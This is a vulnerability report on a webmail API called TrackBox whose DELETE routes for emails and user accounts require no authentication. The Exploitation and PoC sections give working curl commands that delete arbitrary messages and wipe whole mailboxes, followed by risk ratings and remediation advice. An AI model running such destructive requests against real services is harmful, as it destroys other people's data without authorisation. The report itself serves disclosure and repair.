




# Description

Missing authentication on destructive methods (CWE-306 / CWE-862) of the TrackBox webmail API. Two object-level `DELETE` routes are reachable with no session, `Authorization` header, CSRF token, or ownership check:

1. `DELETE /api/emails/<id>` — permanently deletes any email by numeric id.
2. `DELETE /api/users/<username>` — permanently deletes any webmail account by username, **and** every email addressed to it (`Database.delete_email_by_id()` runs `DELETE FROM Emails WHERE Destination = ?`), wiping the whole mailbox in one request.

Combined with the unauthenticated `GET /api/users` and `GET /api/emails` (which disclose every identifier), an attacker does not even need to guess ids — the API hands them over. This adds direct **integrity** and **availability** impact on top of the read/write exposure of the same surface.

# Exploitation

All steps below use only attacker-created PoC objects to avoid touching real data.

| Step | Action | Result |
|------|--------|--------|
| 1 | `POST /api/emails` to create a controlled test email. | `201 {"message":"Email sent successfully"}` — the response does not contain the id. |
| 2 | `GET /api/emails?user=<destination>` (unauthenticated). | The new email and its numeric id are listed (e.g. `86`). |
| 3 | `OPTIONS /api/emails/86`. | `Allow: DELETE, GET, OPTIONS, HEAD` — DELETE offered, no auth. |
| 4 | `DELETE /api/emails/86`. | `200 {"message":"Email deleted successfully","status":"success"}`. |
| 5 | `DELETE /api/users/<username>` on a test account. | `200 {"message":"User deleted successfully","status":"success"}`; account and all its received emails are gone. |

# PoC

**1. Delete an arbitrary email (unauthenticated):**

```bash
curl -sk -X DELETE http://webmail.<TARGET>/api/emails/86 -i
# HTTP/1.1 200 OK
# {"message":"Email deleted successfully","status":"success"}
```



Verification that the object is gone:

```bash
curl -sk http://webmail.<TARGET>/api/emails/86 -i
# HTTP/1.1 404 NOT FOUND
# {"message":"Email not found","status":"error"}
```



**2. Delete an arbitrary webmail user (unauthenticated):**

```bash
curl -sk -X DELETE http://webmail.<TARGET>/api/users/deleteprobe_1779619949@tbox.traced -i
# HTTP/1.1 200 OK
# {"message":"User deleted successfully","status":"success"}

# The account's mailbox is deleted with it:
curl -sk "http://webmail.<TARGET>/api/emails?user=deleteprobe_1779619949@tbox.traced"
# {"count":0,"emails":[],"status":"success"}
```





# Risk

| Dimension | Impact |
|-----------|--------|
| Confidentiality | None directly (covered by the read endpoints). |
| Integrity | Arbitrary destruction of mailbox content and user accounts by any anonymous client. |
| Availability | Mass deletion of emails/users remotely; scriptable, no victim interaction. |

Overall severity: **High** — missing authentication and authorisation on destructive operations compromise the integrity and availability of webmail data.

# Remediation

1. **Enforce authentication** — protect all destructive webmail API operations in `tools/Webmail/src/API.py`. Integrate Flask-Login (`LoginManager`, `@login_required`, `current_user`) or an equivalent authentication mechanism. Reject unauthenticated API requests with HTTP 401.
2. **Enforce object-level and role-based authorisation** — verify mailbox ownership before allowing message deletion. Restrict account deletion to explicitly authorised administrators. Apply server-side permission checks before any database modification and reject unauthorised operations.
3. **Centralise access controls** — implement reusable authorisation mechanisms across webmail API routes. Apply a deny-by-default policy and remove unnecessary public administrative functionality.
4. **Implement CSRF protection** — add `Flask-WTF` to `tools/Webmail/src/requirements.txt` and initialise `flask_wtf.csrf.CSRFProtect` for state-changing operations that rely on cookie-based authentication. Maintain CSRF protection independently of authentication and authorisation.
5. **Implement audit logging and abuse prevention** — record authenticated actor identities, authorised and rejected deletion events, affected resources and timestamps. Apply appropriate rate limiting to sensitive operations without logging authentication secrets or email contents.
6. **Protect data recovery** — maintain protected, regularly tested database backups. Consider recoverable deletion where compatible with data retention requirements. Review historical deletion events and restore affected data where necessary.
7. **Add regression tests** — use Flask's test client to verify authentication enforcement, mailbox isolation, administrative permissions, CSRF protection and preservation of data when deletion requests are rejected.

# Author
Hackrapovic
